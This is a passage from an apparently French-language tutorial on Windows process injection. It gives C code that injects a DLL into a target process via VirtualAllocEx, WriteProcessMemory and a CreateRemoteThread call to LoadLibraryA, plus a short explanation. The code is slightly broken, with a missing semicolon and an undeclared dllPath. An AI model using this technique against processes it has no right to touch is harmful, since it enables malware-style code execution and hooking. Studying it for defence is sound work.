 int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
</code></pre>

Le **deuxième exemple illustre l’utilisation de LoadLibrary pour l’injection de DLL**.\
Ce processus consiste à **allouer de la mémoire dans le processus cible** pour y stocker le chemin de la DLL, puis à **lancer un thread distant** (remote thread) qui commence par appeler **LoadLibrary**, en lui passant ce chemin de DLL. Cela permet de charger la DLL dans le processus cible.

***
